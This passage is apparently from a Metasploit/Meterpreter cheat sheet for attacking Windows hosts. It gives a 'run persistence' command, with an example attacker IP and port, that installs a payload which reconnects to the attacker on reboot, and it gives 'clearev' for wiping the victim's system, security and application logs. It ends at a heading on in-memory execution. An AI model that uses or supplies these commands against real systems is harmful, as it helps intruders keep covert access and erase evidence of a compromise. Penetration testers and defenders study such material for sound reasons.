 run the attack:

![](<../.gitbook/assets/image (291) (1) (1).png>)

using tor is extremely slow ad your session may timeout, play around with timeout values.

## <mark style="color:red;">Logging</mark>

every command will be logged in a file named console.log in `~/.msf4/logs`

```
se consolelogging true
```

## <mark style="color:red;">Auto Persistence</mark>

```
run persistence –A –L [directory to put payload] -X [connection attempt intervals/sec]  –p [attacker port] –r [attaacker ip]
```

```
-A for auro starting listener
-X for starting at reboot
 
# for help:
run persistance -h 
#erun persistence –A –L c:\\ -X 30 –p 443 –r 192.168.1.113
```

## <mark style="color:red;">Clear Victim System Logs</mark>&#x20;

(system, security & application logs)

```
clearev
```

## <mark style="color:red;">Execute Commands Directly From Memory</mark>
